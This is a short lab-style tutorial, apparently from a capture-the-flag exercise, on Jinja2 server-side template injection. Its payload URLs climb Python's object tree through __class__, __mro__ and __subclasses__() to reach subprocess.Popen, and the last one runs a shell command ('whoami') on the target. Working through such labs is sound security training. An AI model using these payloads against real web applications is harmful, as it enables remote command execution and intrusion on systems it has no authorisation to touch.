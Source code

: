 # POC Jinja
### The basic syntax of templates

The official document introduces the syntax of the template as follows

```text-plain
{% ... %} for Statements

{{ ... }} for Expressions to print to the template output

{# ... #} for Comments not included in the template output

#  ... ## for Line Statements
```

**Crafting a proof of concept (Jinja2)**

Python allows us to call the current class instance with [.\_\_class\_\_](https://docs.python.org/release/2.6.4/library/stdtypes.html#instance.__class__), we can call this on an empty string:

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__ }}`.

Classes in Python have an attribute called [.\_\_mro\_\_](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__) that allows us to climb up the inherited object tree:

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}`.

Since we want the root object, we can access the second property (first index):

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}`.

Objects in Python have a method called [.\_\_subclassess\_\_](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__) that allows us to climb down the object tree:

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}`.

Now we need to find an object that allows us to run shell commands. Doing a Ctrl-F for the modules in the code above yields us a match:

![](POC%20Jinja/ChOoCyq.png)

As this whole output is just a Python list, we can access this by using its index. You can find this by either trial and error, or by counting its position in the list.

In this example, the position in the list is 400 (index 401):

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}`.

The above payload essentially calls the **subprocess.Popen** method, now all we have to do is invoke it (use the code above for the syntax)  
 

Payload: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}`